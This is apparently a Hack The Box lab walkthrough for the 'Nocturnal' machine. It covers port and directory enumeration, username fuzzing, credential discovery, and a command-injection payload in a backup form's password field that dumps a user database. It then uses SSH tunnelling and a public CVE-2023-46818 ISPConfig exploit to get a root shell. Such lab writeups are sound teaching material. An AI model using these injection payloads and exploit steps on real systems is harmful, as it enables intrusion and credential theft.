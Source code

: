 ```yaml
---
name: Nocturnal
difficulty: easy
os: linux
platform: htb
date: 2025/07/02
releasedDate: 2025-08-17
userFlag: true
rootFlag: true

img: https://labs.hackthebox.com/storage/avatars/f6a56cec6e9826b4ed124fb4155abc66.png
---
```


## Enumeration

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:
```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.64 -o allPorts
```
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

We try to connect to the web service but redirects us to `http://nocturnal.htb`, so it is necessary to add the domain to our `/etc/hosts` file:
```bash
echo "10.10.11.64 nocturnal.htb" | sudo tee -a /etc/hosts
```

We do nmap scan with service version detection and script scanning using `-sC` and `-sV` options:
```bash
nmap -p 22,80 -sCV nocturnal.htb -o targeted
```
```
ORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 202688700851eede3aa6204187962517 (RSA)
|   256 4f800533a6d42264e9ed14e312bc96f1 (ECDSA)
|_  256 d9881f68438ed42a52fcf066d4b9ee6b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Welcome to Nocturnal
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We look for directories and files in the web application using `gobuster`:
```bash
gobuster dir -u http://nocturnal.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt
```
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://nocturnal.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin.php            (Status: 302) [Size: 0] [--> login.php]
/backups              (Status: 301) [Size: 178] [--> http://nocturnal.htb/backups/]
/index.php            (Status: 200) [Size: 1524]
/uploads              (Status: 403) [Size: 162]
```

## User Exploitation

We can see that its posible to list users via URL:
```bash
ffuf -u 'http://nocturnal.htb/view.php?username=FUZZ&file=*.pdf' -w /usr/share/seclists/Usernames/xato-net-10-million-usernames-dup.txt -mc 200 -H "Cookie: PHPSESSID=jtv19rd5dq7fs8202f2p9fgfgt" -fr "User not found."
```  
``` 
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://nocturnal.htb/view.php?username=FUZZ&file=*.pdf
 :: Wordlist         : FUZZ: /usr/share/seclists/Usernames/xato-net-10-million-usernames-dup.txt
 :: Header           : Cookie: PHPSESSID=jtv19rd5dq7fs8202f2p9fgfgt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
 :: Filter           : Regexp: User not found.
________________________________________________

admin                   [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 97ms]
amanda                  [Status: 200, Size: 3319, Words: 1178, Lines: 129, Duration: 107ms]
tobias                  [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 115ms]
``` 

We can access `http://nocturnal.htb/view.php?username=amanda&file=*.pdf` and see if there are any files uploades by the user. `admin` and `tobias` have not uploaded any files.

User `amanda` has uploaded a file called `privacy.odt`. If we unzip it we can find a file called `content.xml` that contains the following credentials:
```xml
amanda:arHkG7HAI68X8s1J
```

We can use these credentials to login to the web application at `http://nocturnal.htb/login.php` and access the admin panel.

We can see its displaying source code of the web app. We can see password field is vulnerable to RCE.
We try several payloads and we find that the following payload works:
```
password=%09bash%09-c%09"<payload>"%09&backup=
```

We execute the following command to get the contents of the db
```bash
password=%09bash%09-c%09"sqlite3%09../nocturnal_database/nocturnal_database.db%09.dump"&backup=
```
```
VALUES(1,'admin','d725aeba143f575736b07e045d8ceebb');
INSERT INTO users VALUES(2,'amanda','df8b20aa0c935023f99ea58358fb63c4');
INSERT INTO users VALUES(4,'tobias','55c82b1ccd55ab219b3b109b07d5061d');
```

We use `https://crackstation.net/` to crack the hashes and we find the following credentials:
```
tobias:slowmotionapocalypse
```

We use these credentials to login via SSH:
```bash
ssh tobias@10.10.11.64
```

We find the user flag in the home directory of the user `tobias`:
```bash
cat /home/tobias/user.txt
```
```
user flag value
```

## Root Exploitation

We use `linpeas.sh` to check for privilege escalation vectors
We see there is a web service running in port 8080 which is not open outside the machine. We do a ssh tunnel to access the web service:
```bash
ssh -L 8080:localhost:8080 tobias@10.10.11.64
```

We can access the web service at `http://localhost:8080` and we are greeted with a ISP Config login page.
We can use the credentials we found earlier to login:
```
admin:slowmotionapocalypse
``` 

We can check which version of ISP Config is running by checking the footer of the page. Its version `3.2.10p1`, vulnerable to CVE-2023-46818.

We clone the exploit repository from `https://github.com/ajdumanhug/CVE-2023-46818.git` and run the exploit:
```bash
git clone https://github.com/ajdumanhug/CVE-2023-46818.git
cd CVE-2023-46818
python3 CVE-2023-46818.py http://localhost:8080 admin slowmotionapocalypse 
```

We get a reverse shell as root and we can find the root flag in the root directory:
```bash
cat /root/root.txt
```
```
root flag value
```

## Conclusion
This writeup details the steps taken to exploit the Nocturnal machine on Hack The Box, from initial enumeration to privilege escalation and obtaining both user and root flags. The process involved web application exploitation, user credential cracking, and leveraging a known vulnerability in ISP Config to gain root access.
This writeup serves as a guide for those looking to understand the exploitation techniques used in this machine and can be used as a reference for similar challenges in the future.
This writeup is intended for educational purposes only and should not be used for malicious activities.
